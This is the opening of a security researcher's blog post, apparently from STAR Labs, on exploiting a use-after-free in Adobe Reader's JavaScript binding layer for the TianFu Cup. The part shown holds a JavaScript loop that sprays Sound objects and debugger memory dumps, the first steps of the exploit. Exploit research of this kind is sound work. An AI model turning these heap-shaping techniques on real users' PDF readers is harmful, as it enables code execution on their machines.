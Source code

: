 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [www.starlabs.sg](https://www.starlabs.sg/blog/2020/04-tianfu-cup-2019-adobe-reader-exploitation/)

> Last year, I participated in the TianFu Cup competition in Chengdu, China. The chosen target was the ......

Last year, I participated in the [TianFu Cup](http://www.tianfucup.com/) competition in Chengdu, China. The chosen target was the Adobe Reader. This post will detail a use-after-free bug of JSObject. My exploit is not clean and not an optimal solution. I have finished this exploit through lots of trial and error. It involves lots of heap shaping code which I no longer remember exactly why they are there. I would highly suggest that you read the full exploit code and do the debugging yourself if necessary. This blog post was written based on a Windows 10 host with Adobe Reader.

Vulnerability
-------------

The vulnerability is located in the `EScript.api` component which is the binding layer for various JS API call.

First I create an array of `Sound` object.

```
SOUND_SZ 	= 512
SOUNDS 		= Array(SOUND_SZ)
for(var i=0; i<512; i++) {
	SOUNDS[i] = this.getSound(i)
	SOUNDS[i].toString()
}


```

This is what a `Sound` object looks like in memory. The 2nd dword is a pointer to a `JSObject` which has `elements`, `slots`, `shape`, fields … etc. The 4th dword is string indicate the object’s type. I’m not sure which version of Spidermonkey that Adobe Reader is using. At first I thought this is a `NativeObject` but its field doesn’t seem to match Spidermonkey’s source code. If you know what this structure is or have a question, please [contact me via Twitter](https://twitter.com/PTDuy).

```
0:000> dd @eax
088445d8  08479bb0 0c8299e8 00000000 085d41f0
088445e8  0e262b80 0e262f38 00000000 00000000
088445f8  0e2630d0 00000000 00000000 00000000
08844608  00000000 5b8c4400 6d6f4400 00000000
08844618  00000000 00000000

0:000> !heap -p -a @eax
    address 088445d8 found in
    _HEAP @ 4f60000
      HEAP_ENTRY Size Prev Flags    UserPtr UserSize - state
        088445d0 000a 0000  [00]   088445d8    00048 - (busy)
        
0:000> da 085d41f0
085d41f0  "Sound"


```
